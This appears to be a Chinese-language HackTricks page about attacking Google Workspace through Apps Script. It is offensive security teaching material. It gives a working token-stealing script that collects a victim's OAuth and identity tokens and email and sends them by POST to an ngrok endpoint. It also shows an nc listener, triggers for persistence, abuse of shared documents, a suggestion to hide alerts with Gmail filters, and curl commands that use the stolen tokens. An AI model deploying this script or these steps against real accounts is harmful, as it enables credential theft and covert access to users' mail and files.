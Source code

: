 # GWS - App 脚本

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**上关注我。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## App 脚本

App 脚本是**当具有编辑权限的用户访问与 App 脚本链接的文档时将被触发的代码**，并在**接受 OAuth 提示后**。\
它们也可以被设置为由 App 脚本的所有者**每隔一定时间执行**（持久性）。

### 创建 App 脚本

创建 App 脚本有几种方法，尽管最常见的是**从 Google 文档（任何类型）**和作为**独立项目**：

<details>

<summary>从 Google Docs、Sheets 或 Slides 创建一个容器绑定项目</summary>

1. 打开 Docs 文档、Sheets 电子表格或 Slides 演示文稿。
2. 点击 **扩展** > **Google Apps 脚本**。
3. 在脚本编辑器中，点击 **无标题项目**。
4. 为您的项目命名并点击 **重命名**。

</details>

<details>

<summary>创建一个独立项目</summary>

从 Apps 脚本创建一个独立项目：

1. 访问 [`script.google.com`](https://script.google.com/)。
2. 点击添加 **新项目**。
3. 在脚本编辑器中，点击 **无标题项目**。
4. 为您的项目命名并点击 **重命名**。

</details>

<details>

<summary>从 Google Drive 创建一个独立项目</summary>

1. 打开 [Google Drive](https://drive.google.com/)。
2. 点击 **新建** > **更多** > **Google Apps 脚本**。

</details>

<details>

<summary>从 Google Forms 创建一个容器绑定项目</summary>

1. 在 Google Forms 中打开一个表单。
2. 点击更多 more\_vert > **脚本编辑器**。
3. 在脚本编辑器中，点击 **无标题项目**。
4. 为您的项目命名并点击 **重命名**。

</details>

<details>

<summary>使用 clasp 命令行工具创建一个独立项目</summary>

`clasp` 是一个命令行工具，允许您从终端创建、拉取/推送和部署 Apps 脚本项目。

有关更多详细信息，请参阅 [使用 `clasp` 的命令行界面指南](https://developers.google.com/apps-script/guides/clasp)。

</details>

## App 脚本场景 <a href="#create-using-clasp" id="create-using-clasp"></a>

### 使用 App 脚本创建 Google 表格

首先创建一个 App 脚本，我对这个场景的建议是创建一个 Google 表格并转到 **`扩展 > App 脚本`**，这将为您打开一个**链接到表格的新 App 脚本**。

### 泄露令牌

为了访问 OAuth 令牌，您需要点击 **`服务 +` 并添加范围，如**：

* **AdminDirectory**：访问目录的用户和组（如果用户有足够的权限）
* **Gmail**：访问 Gmail 数据
* **Drive**：访问 Drive 数据
* **Google Sheets API**：以便与触发器一起工作

要更改您自己的**所需范围**，您可以转到项目设置并**启用显示编辑器中的“appsscript.json”清单文件**。

{% code overflow="wrap" %}
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail();
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1);
var oauthToken = ScriptApp.getOAuthToken();
var identityToken = ScriptApp.getIdentityToken();

// Data json
data = {
"oauthToken": oauthToken,
"identityToken": identityToken,
"email": userEmail,
"domain": domain
}

// Send data
makePostRequest(data);

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = "";
page = AdminDirectory.Users.list({
domain: domain,  // Use the extracted domain
orderBy: 'givenName',
maxResults: 100,
pageToken: pageToken
});

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10);

// To ask for drive permissions
var files = DriveApp.getFiles();
}


function makePostRequest(data) {
var url = 'http://5.tcp.eu.ngrok.io:12027';

var options = {
'method' : 'post',
'contentType': 'application/json',
'payload' : JSON.stringify(data)
};

try {
UrlFetchApp.fetch(url, options);
} catch (e) {
Logger.log("Error making POST request: " + e.toString());
}
}
```
```plaintext
要捕获请求，您只需运行：
```
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
请求执行App Script的权限：

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
由于发出了外部请求，OAuth提示也将**请求权限以访问外部端点**。
{% endhint %}

### 创建触发器

App准备就绪后，点击**⏰ 触发器**来创建一个触发器。作为**函数**运行选择**`getToken`**，在部署时选择**`Head`**，在事件源中选择**`来自电子表格`**，在事件类型中选择**`打开时`**或**`编辑时`**（根据您的需求），然后保存。

请注意，如果您想调试某些内容，可以在**执行标签中检查App Scripts的运行情况**。

### 分享

为了**触发** **App Script**，受害者需要以**编辑者权限**连接。

总结来说，如果创建者和被邀请用户**来自同一组织**，**OAuth** **令牌**将**属于**访问文件的**用户**。\
如果他们来自**不同的组织**，**令牌**将始终属于**触发器的创建者**，并且只有在创建触发器时给予的**OAuth权限**。

{% hint style="success" %}
用于执行**App Script**的**令牌**将是**触发器创建者**的令牌，即使其他用户以编辑者身份打开文件也是如此。
{% endhint %}

### 滥用共享给我的文档

{% hint style="danger" %}
如果有人**与您共享了一个包含App Scripts和使用App Script Head**的触发器的文档（不是固定部署），您可以修改App Script代码（例如添加窃取令牌功能），访问它，**App Script将以与您共享文档的用户的权限执行**！（请注意，所有者的OAuth令牌将具有创建触发器时给予的访问范围）。

**脚本创建者将收到通知，表明有人修改了脚本**（如何使用gmail权限生成过滤器以防止警报？）
{% endhint %}

{% hint style="success" %}
如果**攻击者修改了App Script的范围**，更新将**不会应用**到文档中，直到创建了一个包含更改的**新触发器**。因此，攻击者将无法窃取所有者创建者的令牌，其范围超出了他在创建的触发器中设置的范围。
{% endhint %}

### 复制而不是分享

当您创建一个分享文档的链接时，会创建类似这样的链接：`https://docs.google.com/spreadsheets/d/1i5[...]aIUD/edit`\
如果您**更改**结尾的**"/edit"**为**"/copy"**，而不是访问它，谷歌会询问您是否要**生成文档的副本：**

<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

如果用户复制并访问它，**文档的内容和App Scripts都将被复制**，但是**触发器不会**，因此**不会执行任何操作**。

### 作为Web应用程序分享

请注意，也可以**将App Script作为Web应用程序分享**（在App Script的编辑器中，部署为Web应用程序），但会出现这样的警告：

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

接着是**典型的OAuth提示**，请求所需的权限。

### 测试

您可以使用以下命令测试收集到的令牌以列出电子邮件：

{% code overflow="wrap" %}
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
用户的日历列表：
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## App Script 作为持久性

一种持久性的选项是**创建一个文档并为getToken函数添加触发器**，然后与攻击者共享文档，这样每次攻击者打开文件时，他都会**窃取受害者的令牌。**

也可以创建一个App Script并使其每隔X时间触发（如每分钟、每小时、每天...）。一个已经**获取了受害者凭证或会话的攻击者可以设置一个App Script时间触发器，并且每天泄露一个非常有权限的OAuth令牌**：

只需创建一个App Script，转到触发器，点击添加触发器，然后选择事件源为Time-driven并选择最适合你的选项：

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
这将创建一个安全警报电子邮件和一个推送消息到你的手机，提醒你这个情况。
{% endhint %}



### 共享文档未验证提示绕过

此外，如果有人与你**共享**了一个具有**编辑权限**的文档，你可以在文档内生成**App Scripts**，而文档的**所有者（创建者）将成为App Script的所有者**。

{% hint style="warning" %}
这意味着，文档的**创建者将显示为任何有编辑权限的人在其中创建的任何App Script的创建者**。

这也意味着**App Script将被文档创建者的Workspace环境信任**。
{% endhint %}

{% hint style="danger" %}
这也意味着，如果一个**App Script已经存在**并且人们已经**授予访问权限**，任何拥有文档**编辑**权限的人都可以**修改它并滥用该访问权限**。\
要滥用这个，你还需要人们触发App Script。一个巧妙的技巧是**将脚本发布为一个web应用**。当已经授予**访问权限**的**人们**访问网页时，他们将**触发App Script**（使用`<img>`标签也有效）。
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零到英雄学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>
